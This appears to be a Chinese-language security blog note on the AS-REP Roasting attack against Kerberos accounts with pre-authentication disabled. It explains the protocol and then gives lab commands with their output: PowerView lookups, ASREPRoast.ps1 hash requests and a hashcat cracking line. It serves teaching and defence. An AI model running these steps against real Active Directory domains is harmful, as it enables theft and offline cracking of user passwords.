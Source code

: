 ```yaml
---
title: AS-REP Roasting
date: 2019-12-31 23:59:54 +0800
categories: [域安全, TA0006凭据访问]
tags: [AS-REP Roasting, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## 0x00 简介

如果账户设置了`Do not require Kerberos preauthentication`，则在AS-REQ阶段就不需要用Client Master Key加密timestamp，用于KDC验证自身。因此，攻击者可以伪装成任意用户发出AS-REQ，而AES-REP中的Session Key是由Client Master Key加密的；一旦攻击者拿到AES-REP后便可暴力破解，如果能顺利解密说明破解成功。

![image-20201229101454378](/assets/img/image-20201229101454378.png)



**参考：**

[Roasting AS-REPs](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

[域渗透——AS-REPRoasting](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-AS-REPRoasting/)

[A Generalized Framework for Kerberos Pre-Authentication](https://tools.ietf.org/html/rfc6113#section-2.2)



## 0x01 AS-REP Roasting原理

Kerberos preauthentication的作用：

> https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication
>
> Kerberos Pre-Authentication is a concept within [Kerberos](https://ldapwiki.com/wiki/Kerberos).
>
> Kerberos Pre-Authentication is defined in [RFC 6113](https://ldapwiki.com/wiki/RFC 6113) and an [IANA Registry](https://ldapwiki.com/wiki/IANA Registry) for [Pre-authentication and Typed Data](https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#pre-authentication)
>
> Kerberos Pre-Authentication is a security feature which offers protection against [password-guessing](https://ldapwiki.com/wiki/Brute-Force) [attacks](https://ldapwiki.com/wiki/Attack). The AS request identifies the client to the [KDC](https://ldapwiki.com/wiki/KDC) in [Plaintext](https://ldapwiki.com/wiki/Plaintext). If Kerberos Pre-Authentication is enabled, a [Timestamp](https://ldapwiki.com/wiki/Timestamp) will be [encrypted](https://ldapwiki.com/wiki/Encrypted) using the user's [password](https://ldapwiki.com/wiki/Password) [hash](https://ldapwiki.com/wiki/Hash) as an [encryption](https://ldapwiki.com/wiki/Encryption) [key](https://ldapwiki.com/wiki/Key). If the [KDC](https://ldapwiki.com/wiki/KDC) reads a valid time when using the user's password hash, which is available in the [Microsoft Active Directory](https://ldapwiki.com/wiki/Microsoft Active Directory), to decrypt the [Timestamp](https://ldapwiki.com/wiki/Timestamp), the [KDC](https://ldapwiki.com/wiki/KDC) knows that request isn't a replay of a previous request.
>
> Without Kerberos Pre-Authentication a [malicious](https://ldapwiki.com/wiki/Malicious) [attacker](https://ldapwiki.com/wiki/Attacker) can directly send a dummy request for [authentication](https://ldapwiki.com/wiki/Authentication). The [KDC](https://ldapwiki.com/wiki/KDC) will return an [encrypted](https://ldapwiki.com/wiki/Encrypted) [TGT](https://ldapwiki.com/wiki/TGT) and the [attacker](https://ldapwiki.com/wiki/Attacker) can brute force it offline. Upon checking the [KDC](https://ldapwiki.com/wiki/KDC) logs, nothing will be seen except a single request for a [TGT](https://ldapwiki.com/wiki/TGT). When [Kerberos](https://ldapwiki.com/wiki/Kerberos) [timestamp](https://ldapwiki.com/wiki/Timestamp) Kerberos Pre-Authentication is enforced, the [attacker](https://ldapwiki.com/wiki/Attacker) cannot directly ask the [KDCs](https://ldapwiki.com/wiki/KDC) for the encrypted material to [Brute-Force](https://ldapwiki.com/wiki/Brute-Force) offline.



注意抓包前先用**KERBEROS::Purge** 清理所有Kerberos ticket，首先看一个带Pre-Authentication的流量，在第二个AS-REQ里，Client会发送密码Hash加密过的timestamp, KDC如果解密成功，即可验证Client。

 [ASExchange_WithPreau.pcapng](traffic\ASExchange_WithPreau.pcapng) 

![image-20201229095230284](/assets/img/image-20201229095230284.png)



再看一个不带Pre-Authentication的流量，可以发现AS-REQ中没有entrypted timestamp字段，即不需要让KDC验证身份。

 [ASExchange_WithoutPreau.pcapng](traffic\ASExchange_WithoutPreau.pcapng) 

![image-20201229095616210](/assets/img/image-20201229095616210.png)



对于关闭了Pre-Authentication的账户，攻击者可以在AS-REQ里仿冒成这些账户获取AS-REP，但还存在两个要解决的问题。

1. AS-REQ、AS-REP中都用指定的etype来加密数据，etype默认是AES256-CTS-HMAC-SHA1-96算法，该算法不如ARCFOUR-HMAC-MD5/RC4快。为了后面暴力破解更快，需要在AS-REQ时就直接指定etype。
2. 传输数据采用了ASN.1格式，.Net没有内置ASN.1的格式解析，最终作者使用的是[open source C# version](https://github.com/bcgit/bc-csharp) 



最终AS-REP Roasting流量如下：

 [AS-REPRoasting.pcapng](traffic\AS-REPRoasting.pcapng) 

![image-20201229100542623](/assets/img/image-20201229100542623.png)





## 0x02 AS-REP Roasting利用

### [1. ASREPRoast.ps1](https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1)



#### 设置账户不需要Pre-Auth(需要Domain Admins权限)

```
// Powerview, 事后也是执行同样的命令Enable Pre-Auth
PS C:\Users\Administrator\Desktop> Set-DomainObject -Identity win10_2 -XOR @{userAccountControl=4194304} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=win10_2)(name=win10_2)(displayname=win10_2))))
VERBOSE: [Set-DomainObject] XORing 'userAccountControl' with '4194304' for object 'win10_2'
```





#### 查找不需要`Pre-Auth`的账户

```
// LDAP Filter
(userAccountControl:1.2.840.113556.1.4.803:=4194304)

// Powerview, Get-DomainUser -PreauthNotRequired
PS C:\Users\win10\Desktop> Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainUser] Searching for user accounts that do not require kerberos preauthenticate
VERBOSE: [Get-DomainUser] filter string:
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))

distinguishedname
-----------------
CN=win10_2,CN=Users,DC=ring2,DC=com
```



#### 发送自己构造的AS-REQ

```
// ASREPRoast.ps1
PS C:\Users\win10\Desktop> Get-ASREPHash -UserName win10_2 -Domain ring2.com -Verbose
VERBOSE: [Get-ASREPHash] DC server IP '192.168.240.142' resolved from passed -Domain parameter
VERBOSE: [Get-ASREPHash] Bytes sent to '192.168.240.142': 157
VERBOSE: [Get-ASREPHash] Bytes received from '192.168.240.142': 1356
$krb5asrep$win10_2@ring2.com:5f799d1ea6514c063501cf007e57413b$f9fd3ed74412ebd698ba4a6a158109da42eed6ae7bf2318160f7de6aaa9e9f60cbf45a98c781671a68483e0ba3fb44395b7248fbb53cb89871b357f81544b8b5a4097057507c5a8a48ee3ec9716fc6b6292bc683dc953b6b19e17d6d8f386998c0c78f543d665363ed12b36ee38b0107d21f49f49460dce935bed6005284cb2dc187008fb0f0233163ad4ae61b2a7caf977cdf4c9ebaee05591bfe90c5f4f56b4ef12d17200396469318810cf5c0c1976d316ada73e54a3eff8d0da01ac9cc4dac64d5c082f9cc521a090163a2c271072d2b78b998f9cc2f47f84bfd4d2d06f20f4a6bd61eb2
```



`Invoke-ASREPRoast`将发现和发送组合到了一起，可以直接调用。

```
PS C:\Users\win10\Desktop> Invoke-ASREPRoast -Verbose |Format-List
VERBOSE: [Invoke-ASREPRoast] DC server IP '192.168.240.142' resolved from passed -Domain parameter
VERBOSE: [Get-DomainSearcher] search string: LDAP://ringdc-pc.ring2.com/DC=ring2,DC=com
VERBOSE: [Invoke-ASREPRoast] LDAP filter:
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
VERBOSE: [Get-ASREPHash] DC server IP '192.168.240.142' resolved from passed -Server parameter
VERBOSE: [Get-ASREPHash] Bytes sent to '192.168.240.142': 157
VERBOSE: [Get-ASREPHash] Bytes received from '192.168.240.142': 1356


SamaccountName    : win10_2
DistinguishedName : CN=win10_2,CN=Users,DC=ring2,DC=com
Hash              : $krb5asrep$win10_2@ring2.com:f11aab49f586f1fcab53dcc60dbe8e0e$6b1622e1a82818fa83fc69aa96fee761d7efe
                    07474f76748336b1cd7ddb6fb3781763037b3bd61f2fb24f8410fceb256f093fdd4e46fa95b1a09a2bcf139329ecd5ce1e8
                    aeb8b119e7a80f1a6bbb875593a26a01dcdb83939b8a241d7380918a63bbf58fe0c4ab94d5c8c7dc6a0c173e65b3eadc672
                    c7094728c3ff6cafae1f5e10286d0a9afd9ae42fd38c87a4c1e0f21ca91d1f786ea98af39b07045c690785e127594d52615
                    93b5780563ae614bed15d9cc70eb127ec682ab072414a59e112fd415baad8e0bf0495673543924ff2ae99b903f37f2f49b5
                    0f02cff77592222a12bae5fdc38
```



#### 暴力破解

需要在$krb5asrep加上etype类型$23

```
hashcat -m 18200 '$krb5asrep$23$win10_2@ring2.com:9b93f475d1348bc80d8826e558f94e39$d335c24cb5343d505cd0fd59cadf290c3a2af20dbdad28f8671dd6d82ba760e2de0cc29b0b6bc222bd1833b5d6d8bb6c2b1d3b5203ecadc6d305a5597949d4d60ac9a286c214af6be85596a7054b3a50664d489ef3fe72c397bb67fcc90225acb10637357c1408752b5e10d492a752bf0dbd18ed09f0b19962186a49ab98d30935983cbc20133597bdca32c8a1a71e60b098cc47a511f5f1d6c309205b0f76cfce6a3167b1481b2ec868bf48bb99ec23b42b942867cd0952833eb71f733d305ab9f50cb88d76eafd95619a75977c7bcb52bb31e0331239c2faee1dfb0da84d902d882d9a642b' password.txt --force
```

![image-20201229102020908](/assets/img/image-20201229102020908.png)

